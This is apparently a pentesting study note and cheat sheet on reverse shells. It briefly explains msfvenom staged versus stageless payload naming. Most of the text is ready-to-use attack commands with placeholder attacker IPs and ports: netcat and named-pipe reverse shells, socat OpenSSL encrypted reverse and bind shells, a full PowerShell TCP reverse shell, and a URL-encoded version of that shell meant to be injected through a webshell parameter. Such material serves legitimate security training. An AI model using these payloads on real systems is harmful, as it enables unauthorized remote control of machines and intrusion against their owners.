 # Reverse Shells

## Links
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md


## MSFVENOM
#### Staged vs Stageless

Before we go any further, there are another two concepts which must be introduced: staged reverse shell payloads and stageless reverse shell payloads.

Staged payloads are sent in two parts. The first part is called the stager. This is a piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself. 

Stageless payloads tend to be easier to use and catch; however, they are also bulkier, and are easier for an antivirus or intrusion detection program to discover and remove. Staged payloads are harder to use, but the initial stager is a lot shorter, and is sometimes missed by less-effective antivirus software. Modern day antivirus solutions will also make use of the Anti-Malware Scan Interface (AMSI) to detect the payload as it is loaded into memory by the stager, making staged payloads less effective than they would once have been in this area.


shell_reverse_tcp, This indicates that it was a stageless payload. How? Stageless payloads are denoted with underscores (_). The staged equivalent to this payload would be:

shell/reverse_tcp

As staged payloads are denoted with another forward slash (/).

This rule also applies to Meterpreter payloads. A Windows 64bit staged Meterpreter payload would look like this:

windows/x64/meterpreter/reverse_tcp

A Linux 32bit stageless Meterpreter payload would look like this:

linux/x86/meterpreter_reverse_tcp


```
msfvenom -p <PAYLOAD> <OPTIONS>


msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```

## Linux

### Sender (Victim)

Simple reverse shell
```
nc <LOCAL-IP> <PORT> -e /bin/bash
```
background the shell with Ctrl + Z, then use ``stty raw -echo; fg`` to stabilise and re-enter the shell. 


Create a reverseshell sender with namned pipe
```
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

#### Encrypted shell
```
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
We then need to merge the two created files into a single .pem file:

``cat shell.key shell.crt > shell.pem``

Now, when we set up our reverse shell listener, we use:

``socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -``


To connect back, we would use:

``socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash``

The same technique would apply for a bind shell:

Target:

``socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes``

Attacker:

``socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -``


### Listner (C&C)

Create a reverseshell listner with namned pipe
```
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```


## Windows

### Sender (Victim)

```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## Webshells
there are a variety of webshells available on Kali by default at /usr/share/webshells -- including the infamous PentestMonkey php-reverse-shell -- a full reverse shell written in PHP. Note that most generic, language specific (e.g. PHP) reverse shells are written for Unix based targets such as Linux webservers. They will not work on Windows by default.

When the target is Windows, it is often easiest to obtain RCE using a web shell, or by using msfvenom to generate a reverse/bind shell in the language of the server. With the former method, obtaining RCE is often done with a URL Encoded Powershell Reverse Shell. This would be copied into the URL as the cmd argument:
```
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

This is the same shell we encountered in Task 8, however, it has been URL encoded to be used safely in a GET parameter. Remember that the IP and Port (bold, towards end of the top line) will still need to be changed in the above code.